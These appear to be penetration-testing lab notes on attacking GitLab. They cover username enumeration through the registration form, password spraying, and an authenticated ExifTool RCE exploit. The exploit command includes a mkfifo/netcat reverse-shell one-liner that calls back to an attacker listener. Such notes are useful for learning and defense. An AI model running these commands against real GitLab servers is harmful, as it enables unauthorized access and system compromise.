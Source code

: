 
### **Username Enumeration**

- _GitLab allows user enumeration via registration form_:
    - Registering existing usernames returns:
        - `Username has already been taken`
        - `Email has already been taken`
    
- Not considered a vulnerability by GitLab unless further impact shown
- Scripts can automate enumeration
- GitLab default lockout settings:
    - `config.maximum_attempts = 10`
    - `config.unlock_in = 10.minutes`
    - Cannot be changed via UI; requires source code modification

- Valid usernames can be used for:
    - _Password spraying_ with weak credentials
    - _Credential reuse attacks_

---

### **Example Script Usage**
```bash
./gitlab_userenum.sh --url http://gitlab.inlanefreight.local:8081/ --userlist users.txt
```
Script identifies valid users:
- `root` (default admin)
- `bob`

---

### **Authenticated Remote Code Execution (RCE)**

- GitLab CE version ≤ _13.10.2_ vulnerable due to _ExifTool_ image metadata handling
- Exploit allows _authenticated users_ to achieve RCE via image upload
- Useful if:
    - Self-registration is enabled
    - Credentials obtained via OSINT or brute force

### **Exploit Example**
```bash
python3 gitlab_13_10_2_rce.py -t http://gitlab.inlanefreight.local:8081 \
  -u mrb3n -p password1 \
  -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.15 8443 >/tmp/f'
```
Output:
- `[+] RCE Triggered !!`
- Reverse shell received on listener
- Shell runs as `git` user
- Potential to escalate privileges or pivot deeper into the network

---

### **Key Takeaways**

- Enumeration alone can yield valuable access
- Self-registration + weak defaults = potential full compromise
- Always check:
    - Public project visibility
    - Open registration
    - Version number (/help)

- Exploitable CVEs + authenticated access = high-impact RCE
